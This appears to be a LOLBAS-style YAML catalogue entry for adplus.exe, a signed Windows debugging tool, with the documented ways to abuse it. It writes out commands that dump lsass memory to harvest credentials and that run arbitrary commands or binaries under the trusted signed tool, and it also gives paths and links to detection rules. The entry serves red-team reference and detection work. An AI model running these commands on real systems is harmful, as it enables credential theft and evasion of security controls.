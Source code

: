 ```yaml
---
Name: adplus.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-09-01
Commands:
  - Command: adplus.exe -hang -pn lsass.exe -o c:\users\mr.d0x\output\folder -quiet
    Description: Creates a memory dump of the lsass process
    Usecase: Create memory dump and parse it offline
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -c config-adplus.xml
    Description: Execute arbitrary commands using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All Windows
  - Command: adplus.exe -c config-adplus.xml
    Description: Dump process memory using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -crash -o "C:\temp\" -sc calc.exe
    Description: Execute arbitrary commands and binaries from the context of adplus. Note that providing an output directory via '-o' is required.
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All windows
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\adplus.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\adplus.exe
Code_Sample:
  - Code: https://gist.github.com/nasbench/e34ca2cd90e3a845a558a102a4f607da
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_adplus.yml
  - IOC: As a Windows SDK binary, execution on a system may be suspicious
Resources:
  - Link: https://blog.thecybersecuritytutor.com/adplus-debugging-tool-lsass-dump/
  - Link: https://twitter.com/nas_bench/status/1534916659676422152
  - Link: https://twitter.com/nas_bench/status/1534915321856917506
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

